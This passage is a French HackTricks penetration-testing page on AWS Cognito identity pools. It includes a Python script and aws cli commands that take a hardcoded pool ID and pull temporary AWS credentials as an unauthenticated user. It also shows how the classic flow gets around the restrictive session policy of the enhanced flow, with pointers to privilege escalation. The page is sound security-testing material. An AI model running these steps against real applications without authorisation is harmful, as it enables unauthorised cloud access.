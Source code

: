 # Pools d'identités Cognito

<details>

<summary><strong>Soutenez HackTricks et bénéficiez d'avantages !</strong></summary>

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou si vous souhaitez accéder à la **dernière version de PEASS ou télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**The PEASS Family**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).

</details>

## Informations de base

Avec un pool d'identités, vos utilisateurs peuvent **obtenir des informations d'identification AWS temporaires pour accéder aux services AWS**, tels que Amazon S3 et DynamoDB. Les pools d'identités prennent en charge les utilisateurs invités anonymes, ainsi que les fournisseurs d'identité suivants que vous pouvez utiliser pour authentifier les utilisateurs pour les pools d'identités :

* Pools d'utilisateurs Amazon Cognito
* Connexion sociale avec Facebook, Google, Login with Amazon et Sign in with Apple
* OpenID Connect (OIDC) fournisseurs
* Fournisseurs d'identité SAML
* Identités authentifiées par les développeurs

### Cognito Sync

Pour générer des sessions de pool d'identités, vous devez d'abord **générer un ID d'identité**. Cet ID d'identité est l'**identification de la session de cet utilisateur**. Ces identifications peuvent avoir jusqu'à 20 ensembles de données qui peuvent stocker jusqu'à 1 Mo de paires clé-valeur.

Cela est **utile pour conserver les informations d'un utilisateur** (qui utilisera toujours le même ID d'identité).

De plus, le service **cognito-sync** est le service qui permet de **gérer et synchroniser ces informations** (dans les ensembles de données, en envoyant des informations dans des flux et des messages SNS...).

## Accès aux rôles IAM

### Non authentifié

La seule chose qu'un attaquant doit savoir pour **obtenir des informations d'identification AWS** dans une application Cognito en tant qu'utilisateur non authentifié est l'**ID du pool d'identités**, et cet **ID doit être codé en dur** dans l'application web/mobile pour qu'elle l'utilise. Un ID ressemble à ceci : `eu-west-1:098e5341-8364-038d-16de-1865e435da3b` (il n'est pas brute-forceable).

{% hint style="success" %}
Le **rôle IAM Cognito non authentifié créé via est appelé** par défaut `Cognito_<nom du pool d'identités>Unauth_Role`
{% endhint %}

Si vous trouvez un ID de pool d'identités codé en dur et qu'il permet aux utilisateurs non authentifiés, vous pouvez obtenir des informations d'identification AWS avec :

```python
import requests

region = "us-east-1"
id_pool_id = 'eu-west-1:098e5341-8364-038d-16de-1865e435da3b'
url = f'https://cognito-identity.{region}.amazonaws.com/'
headers = {"X-Amz-Target": "AWSCognitoIdentityService.GetId", "Content-Type": "application/x-amz-json-1.1"}
params = {'IdentityPoolId': id_pool_id}

r = requests.post(url, json=params, headers=headers)
json_resp = r.json()

if not "IdentityId" in json_resp:
    print(f"Not valid id: {id_pool_id}")
    exit

IdentityId = r.json()["IdentityId"]

params = {'IdentityId': IdentityId}

headers["X-Amz-Target"] = "AWSCognitoIdentityService.GetCredentialsForIdentity"
r = requests.post(url, json=params, headers=headers)

print(r.json())
```

Ou vous pouvez utiliser les **commandes aws cli** suivantes :

```bash
aws cognito-identity get-id --identity-pool-id <identity_pool_id> --no-sign
aws cognito-identity get-credentials-for-identity --identity-id <identity_id> --no-sign
```

{% hint style="warning" %}
Notez que par défaut, un utilisateur cognito **non authentifié NE PEUT PAS avoir de permission, même s'il a été attribué via une stratégie**. Vérifiez la section suivante.
{% endhint %}

### Flux d'authentification amélioré vs de base

La section précédente a suivi le **flux d'authentification amélioré par défaut**. Ce flux définit une **politique de session restrictive** [**session policy**](../../aws-basic-information/#session-policies) pour la session de rôle IAM générée. Cette politique ne permettra à la session d'utiliser que les services de cette liste (même si le rôle avait accès à d'autres services).

Cependant, il existe un moyen de contourner cela, si le **pool d'identités a activé le "flux de base (classique)"**, l'utilisateur pourra obtenir une session en utilisant ce flux qui **n'aura pas cette politique de session restrictive**.

{% code overflow="wrap" %}
```bash
# Get auth ID
aws cognito-identity get-id --identity-pool-id <identity_pool_id> --no-sign

# Get login token
aws cognito-identity get-open-id-token --identity-id <identity_id> --no-sign

# Use login token to get IAM session creds
## If you don't know the role_arn use the previous enhanced flow to get it
aws sts assume-role-with-web-identity --role-arn <role_arn> --role-session-name sessionname --web-identity-token <token> --no-sign
```
{% endcode %}

{% hint style="warning" %}
Si vous recevez cette **erreur**, c'est parce que le **flux de base n'est pas activé (par défaut)**

`An error occurred (InvalidParameterException) when calling the GetOpenIdToken operation: Basic (classic) flow is not enabled, please use enhanced flow.`
{% endhint %}

En ayant un ensemble d'informations d'identification IAM, vous devriez vérifier [à quel accès vous avez](../../#whoami) et essayer de [développer les privilèges](../../aws-privilege-escalation/).

### Authentifié

{% hint style="info" %}
N'oubliez pas que les **utilisateurs authentifiés** se verront probablement accorder **différentes autorisations**, donc si vous pouvez **vous inscrire dans l'application**, essayez de le faire et d'obtenir les nouvelles informations d'identification.
{% endhint %}

Il pourrait également y avoir des **rôles** disponibles pour les **utilisateurs authentifi